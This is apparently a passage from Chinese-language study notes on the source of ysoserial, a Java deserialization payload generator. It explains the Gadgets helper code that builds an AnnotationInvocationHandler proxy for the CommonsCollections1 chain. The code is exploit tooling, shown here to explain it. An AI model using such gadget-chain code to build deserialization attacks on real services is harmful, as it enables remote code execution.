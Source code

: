     ![image-20250621155944851](ysoserial/image-20250621155944851.png)
    工具类，对一些常见部分进行了抽离。
    以 CC1 为例，其涉及到 `AnnotationInvocationHandler` 的动态代理，主要涉及以下代码：

    ```java
    public static final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";
    
    public static <T> T createMemoitizedProxy ( final Map<String, Object> map, final Class<T> iface, final Class<?>... ifaces ) throws Exception {
        return createProxy(createMemoizedInvocationHandler(map), iface, ifaces);
    }
    
    
    // 创建 InvocationHandler，其将反射创建 AnnotationInvocationHandler 进行了工具类抽取
    public static InvocationHandler createMemoizedInvocationHandler ( final Map<String, Object> map ) throws Exception {
        // 又创建了工具类 ysoserial.payloads.util.Reflections 进行 
        return (InvocationHandler) Reflections.getFirstCtor(ANN_INV_HANDLER_CLASS).newInstance(Override.class, map);
    }
    
    
    public static <T> T createProxy ( final InvocationHandler ih, final Class<T> iface, final Class<?>... ifaces ) {
        final Class<?>[] allIfaces = (Class<?>[]) Array.newInstance(Class.class, ifaces.length + 1);
        allIfaces[ 0 ] = iface;
        if ( ifaces.length > 0 ) {
            System.arraycopy(ifaces, 0, allIfaces, 1, ifaces.length);
        }
        // 这里就是 Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
        // 用到了 Class.cast()，也是第一次见到这个方法
        return iface.cast(Proxy.newProxyInstance(Gadgets.class.getClassLoader(), allIfaces, ih));
    }
    